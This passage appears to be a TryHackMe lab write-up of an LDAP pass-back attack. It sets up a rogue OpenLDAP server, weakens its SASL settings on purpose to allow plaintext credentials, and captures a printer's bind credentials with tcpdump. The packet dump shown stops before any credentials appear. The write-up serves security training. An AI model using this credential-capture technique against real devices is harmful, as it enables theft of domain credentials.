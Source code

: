 ```systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com``` Remember to set $THMDCIP to the IP of THMDC in your network diagram.

Select MDB as the database.

![MDB Set Up](task4_SetUp5.png)

Select **No** when asked if you would like the database to be removed when slapd is purged and finally select **Yes** to move the old database files. 

![Old Database](task4_SetUp6.png)

Now we move onto making the server vulnerable by creating a new file called "olcSaslSecProps.ldif". You can do this by using the ```touch``` command or by simply opening a note pad file and saving it with the following content:

```dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred```

![New File](task4_NewFile.png)

Next we will patch out server using the file we just created. 

```sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart```

Then we can check the configuration with:

```ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms```

![Patch](task4_patch.png)

Finally we're ready to dump our credentials in cleartext with ```sudo tcpdump -SX -i breachad tcp port 389```

After you run the above command select "Test Settings" on the printer settings page. This should dump the credentials. Below is the very large dump.

```root@ip-10-10-200-41:~# sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on breachad, link-type RAW (Raw IP), capture size 262144 bytes
22:43:29.012582 IP ip-10-200-97-201.eu-west-1.compute.internal.58012 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [SEW], seq 1717344990, win 64240, options [mss 1289,nop,wscale 8,nop,nop,sackOK], length 0
	0x0000:  4502 0034 b6cc 4000 7f06 701b 0ac8 61c9  E..4..@...p...a.
	0x0010:  0a32 5e17 e29c 0185 665c 9ade 0000 0000  .2^.....f\......
	0x0020:  80c2 faf0 b9d3 0000 0204 0509 0103 0308  ................
	0x0030:  0101 0402                                ....
22:43:29.012632 IP ip-10-50-94-23.eu-west-1.compute.internal.ldap > ip-10-200-97-201.eu-west-1.compute.internal.58012: Flags [S.], seq 3773137090, ack 1717344991, win 64240, options [mss 1460,nop,nop,sackOK,nop,wscale 7], length 0
	0x0000:  4500 0034 0000 4000 4006 65ea 0a32 5e17  E..4..@.@.e..2^.
	0x0010:  0ac8 61c9 0185 e29c e0e5 80c2 665c 9adf  ..a.........f\..
	0x0020:  8012 faf0 5830 0000 0204 05b4 0101 0402  ....X0..........
	0x0030:  0103 0307                                ....
22:43:29.013485 IP ip-10-200-97-201.eu-west-1.compute.internal.58012 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [.], ack 3773137091, win 8217, length 0
	0x0000:  4500 0028 b6cd 4000 7f06 7028 0ac8 61c9  E..(..@...p(..a.
	0x0010:  0a32 5e17 e29c 0185 665c 9adf e0e5 80c3  .2^.....f\......
	0x0020:  5010 2019 73da 0000                      P...s...
22:43:29.013811 IP ip-10-200-97-201.eu-west-1.compute.internal.58012 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [P.], seq 1717344991:1717345065, ack 3773137091, win 8217, length 74
	0x0000:  4500 0072 b6ce 4000 7f06 6fdd 0ac8 61c9  E..r..@...o...a.
	0x0010:  0a32 5e17 e29c 0185 665c 9adf e0e5 80c3  .2^.....f\......
	0x0020:  5018 2019 294d 0000 3084 0000 0044 0201  P...)M..0....D..
	0x0030:  0a63 8400 0000 3b04 000a 0100 0a01 0002  .c....;.........
```